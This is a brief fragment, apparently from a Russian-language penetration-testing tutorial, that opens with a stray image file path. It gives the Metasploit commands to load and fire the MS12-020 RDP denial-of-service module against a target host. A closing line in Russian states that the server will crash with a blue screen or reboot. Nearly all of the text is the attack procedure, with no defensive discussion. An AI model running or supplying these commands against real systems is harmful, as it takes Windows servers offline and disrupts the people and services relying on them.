 ```
search ms12_020
```

```
auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

```
set RHOST <$REMOTE_IP>
```

```
exploit
```

> После успешного выполнения эксплойта сервер выйдет из строя. Результатом будет “синий экран смерти” или перезапуск системы